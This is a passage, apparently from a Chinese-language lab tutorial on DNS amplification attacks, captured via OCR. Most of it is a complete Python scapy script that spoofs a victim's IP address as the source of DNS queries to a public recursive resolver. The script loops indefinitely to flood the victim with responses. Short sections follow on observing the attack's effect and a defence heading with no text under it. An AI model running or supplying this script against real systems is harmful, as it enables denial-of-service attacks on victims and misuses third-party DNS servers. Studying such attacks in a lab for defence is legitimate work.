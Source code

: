 ### 4.2 高级版攻击脚本 (使用scapy库)

```python
from scapy.all import *
import random
import time

# 配置参数
target_ip = "192.168.1.106"    # 被攻击的目标服务器IP
dns_server = "101.226.4.6"     # 开放的递归DNS服务器
domain_name = "www.baidu.com"  # 查询的域名

# 构造DNS请求包
def build_dns_request(domain):
    dns_query = IP(dst=dns_server, src=target_ip) / UDP(dport=53, sport=random.randint(1024, 65535)) / \
                DNS(rd=1, qd=DNSQR(qname=domain, qtype="A"))
    return dns_query

# 发送伪造的DNS请求
def send_dns_request():
    while True:
        try:
            # 构造DNS请求包
            dns_request = build_dns_request(domain_name)
            
            # 发送DNS请求到DNS服务器
            send(dns_request, verbose=0)  # 设置verbose=0以减少输出
            print(f"发送DNS请求到 {dns_server}，伪造源IP：{target_ip}")
            
            # 控制请求速率
            time.sleep(0.1)  # 可以调整时间间隔控制发送频率
        except KeyboardInterrupt:
            print("攻击停止。")
            break

# 主函数
if __name__ == "__main__":
    print(f"开始向目标服务器 {target_ip} 发起DNS放大攻击...")
    send_dns_request()
```

## 5. 实验结果观察

在实验过程中，可以通过以下方式观察攻击效果：

1. 在被攻击端运行流量监测脚本，观察DNS请求与响应数量的差异
2. 监控被攻击端网络接口流量变化
3. 观察被攻击端系统资源占用情况

## 6. 防御措施
